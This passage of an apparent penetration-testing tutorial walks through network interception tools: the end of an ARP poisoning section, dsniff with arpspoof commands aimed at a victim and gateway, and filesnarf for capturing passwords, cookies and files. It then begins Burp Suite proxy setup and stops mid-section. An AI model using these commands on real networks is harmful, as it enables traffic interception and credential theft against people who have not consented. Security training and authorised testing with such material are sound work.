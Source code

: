 4. **Enable ARP Poisoning:**
   ```plaintext
   Mitm > ARP Poisoning > Sniff Remote Connections
   ```

5. **Monitor Traffic:**
   - View and analyze traffic in real-time.

---

## 4. dsniff

### **Purpose:**
`dsniff` is a set of tools to extract sensitive information like cookies or passwords from network traffic.

### **Steps to Use:**
1. **Install dsniff:**
   ```bash
   sudo apt update
   sudo apt install dsniff
   ```

2. **Run dsniff:**
   ```bash
   sudo dsniff -i eth0
   ```

3. **Useful Commands:**
   - ARP Spoofing:
     ```bash
     sudo arpspoof -i eth0 -t [victim_ip] [gateway_ip]
     ```
   - File Sniffing:
     ```bash
     sudo filesnarf -i eth0
     ```

---

## 5. Burp Suite

### **Purpose:**
Burp Suite is a comprehensive tool for intercepting and modifying HTTP requests and responses.

### **Steps to Use:**
1. **Install Burp Suite:**
   ```bash
   sudo apt update
   sudo apt install burpsuite
   ```

2. **Set Up Proxy:**
   - Run Burp Suite:
     ```bash
     burpsuite
     ```
   - Configure your browser to use Burp as a proxy (default port: 8080).
